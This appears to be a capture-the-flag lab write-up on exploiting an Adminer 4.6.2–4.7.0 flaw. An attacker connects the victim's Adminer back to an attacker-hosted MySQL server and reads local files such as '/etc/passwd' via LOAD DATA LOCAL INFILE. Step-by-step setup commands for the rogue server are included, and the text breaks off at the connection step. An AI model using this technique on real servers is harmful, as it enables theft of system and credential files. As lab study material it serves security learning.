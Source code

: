 **search :** `adminer`

**_search results_**

* [Adminer](https://www.adminer.org/) is a Database management tool for MYSQL
* version 4.6.2 and above <4.7.0 have Serious Vulnerability,
	[foregenix.com blog](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)
* Vulnerability first discovered by security researchers Yashar Shahinzadeh,
	[yashar medium blog](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)
* How this Vulnerability works
    * **First**, the attacker will access the victim’s Adminer instance, but instead of trying to connect to thevictim’s MySQL database, they connect “back” to their own MySQL database hosted on their own server.

    * **Second**, using the victim’s Adminer (connected to their own database) – they use the MySQL command specifying a local file on the victim’s server. This command is used to load data from a file local to the Adminer instance, into a database.
	  *sql command for loading file from Adminer instance

		  LOAD DATA LOCAL INFILE '/etc/passwd' 
		  INTO TABLE test
		  FIELDS TERMINATED BY "\n"

# User Exploiting

## sql

* **First**, setup mysql server in my local machine

	  $ sudo service mysql start	//start mysql service
	  $ sudo mysql -u root	//login as root user in our sql server
	  > create database ladmirer;	//create database
	  > show databases;
	  //setup user 
	  > create user 'luser'@'%' IDENTIFIED BY 'lpass';
	  > GRANT ALL PRIVILEGES ON * . * TO 'username'@'%';
	  > FLUSH PRIVILEGES;
	  > create table test (data VARCHAR(225)); //create test data in the created database

* **Second** , bind server to `tun0` address by editing cnf file

	  nano /etc/mysql/mariadb.conf.d/50-server.cnf
		bind-address  = 0.0.0.0		//change bind address to tun0 or 0.0.0.0 

* **Third**, restart mysql service

	  $ sudo service mysql restart
	  $ mysql -h localhost -u luser -p 	//testing created user
		> lpass		//password

* **Fourth**, login to adminer and connect back to my local sql server

	  System = MySQL
	  Server = tun0
	  Username = luser
	  Password = lpass
	  Database = ladmirer
